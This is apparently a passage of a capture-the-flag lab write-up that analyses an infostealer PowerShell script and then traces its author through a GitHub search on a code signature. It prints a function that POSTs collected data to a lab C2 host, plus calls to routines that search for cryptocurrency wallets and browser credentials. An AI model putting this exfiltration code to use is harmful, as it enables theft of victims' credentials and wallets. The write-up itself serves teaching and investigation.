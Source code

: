 ```powershell
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server

```

The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

**_Dis__claimer:_** All content in this room, including CPP code, PowerShell scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.

This looks fairly typical of a PowerShell script for such a purpose, with one notable exception: a signature in the code that reads.

> **Created by the one and only M.M.**

## Searching the Source

There are many paths we could take to continue our investigation. We could investigate the website further, analyse its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

However, for this room, we'll try something a bit different. Since we already have the PowerShell code, searching for it online might give us useful leads. It's a long shot, but we'll explore it in this exercise.

There are many places where we can search for code. The most widely used is Github. So let's try searching there.

To search effectively, we can look for unique parts of the code that we could use to search with. The more distinctive, the better. For this scenario, we have the string we've uncovered before that reads:

**"Created by the one and only M.M."**

- Buscamos en github y lleamos a:  https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues

https://github.com/ZeruxUAE/IDK/issues/1
https://github.com/ZeruxUAE

https://github.com/Atom1cByte/CryptoWallet-Search/issues/1
https://github.com/Atom1cByte

https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/7
https://github.com/Bloatware-WarevilleTHM
